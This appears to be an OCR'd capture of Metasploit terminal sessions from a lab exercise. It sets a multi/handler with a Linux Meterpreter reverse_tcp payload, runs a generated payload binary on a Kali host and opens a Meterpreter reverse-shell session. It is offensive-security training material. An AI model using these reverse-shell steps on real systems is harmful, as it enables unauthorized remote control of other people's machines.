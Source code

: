 ```
Meterpreter     : x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.248.150 - Meterpreter session 1 closed.  Reason: User exit

```

```
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.248.148:1234 
```

```
┌──(root㉿kali)-[~/payloads/Linux_Payloads]
└─# ls                            
payloadx64  payloadx86
                                 
┌──(root㉿kali)-[~/payloads/Linux_Payloads]
└─# ./payloadx86 
```

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.248.148:1234 
[*] Sending stage (1017704 bytes) to 192.168.248.148
[*] Meterpreter session 2 opened (192.168.248.148:1234 -> 192.168.248.148:46860) at 2023-01-14 03:40:29 -0500

meterpreter > sysinfo
Computer     : 192.168.248.148
OS           : Debian  (Linux 5.18.0-kali2-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

